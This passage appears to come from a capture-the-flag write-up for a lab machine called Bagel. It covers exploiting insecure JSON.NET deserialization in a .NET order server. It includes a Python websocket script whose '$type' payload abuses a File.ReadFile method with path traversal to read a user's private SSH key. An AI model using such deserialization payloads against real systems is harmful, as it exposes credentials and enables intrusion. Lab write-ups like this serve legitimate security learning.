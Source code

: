 ![dnSpy Order](/img/bagel/dnSpy_order.png)

What I now need to do from here is find a way to exploit that insecure deserialization. [I'll use this rough outline](https://web.archive.org/web/20220819180147/https://pentestmag.com/insecure-deserialization-with-json-net/) of json .net deserialization. 

The class and method combo that sticks out is ReadFile under File. So in the json I need to define **{"$type":"bagel_server.File, bagel","ReadFile":"File"}**. To simplify, I am calling the namespace bagel_server, then the class File under it, within bagel. Then I use the ReadFile method from the File class to pass a file location I control as opposed to the defined location. 

```python
import websocket,json

try:
    ws = websocket.WebSocket()    
    ws.connect("ws://bagel.htb:5000/") # connect to order app
    order = {"RemoveOrder":{"$type":"bagel_server.File, bagel","ReadFile":"../../../../home/phil/.ssh/id_rsa"}}
    data = str(json.dumps(order))
    ws.send(data)
    result = ws.recv()
    print(json.loads(result))
except:
    print("Unable to connect")
```
